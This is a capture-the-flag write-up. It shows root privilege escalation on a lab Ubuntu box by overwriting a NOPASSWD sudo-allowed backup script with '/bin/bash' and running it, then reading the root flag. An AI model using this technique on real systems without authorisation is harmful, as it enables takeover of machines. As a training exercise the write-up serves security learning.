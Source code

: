 ```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

```

We can sudo with the [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md), we go in the directory and see permissions to see if we can write :

```
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 13 12:21 backed_up_files.txt
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 13 12:21 ubuntu-scheduled.tgz

```

And we don't so we try to add writing permissions :

```
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 13 12:23 backed_up_files.txt
-rwxrwxr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 13 12:23 ubuntu-scheduled.tgz

```

Worked ! Now we can write it up and execute :

```
alex@ubuntu:/etc/mp3backups$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh 

root@ubuntu:/etc/mp3backups# cd ..
root@ubuntu:/etc# cd ..
root@ubuntu:/# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
root@ubuntu:/# cd root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```

Pwned !

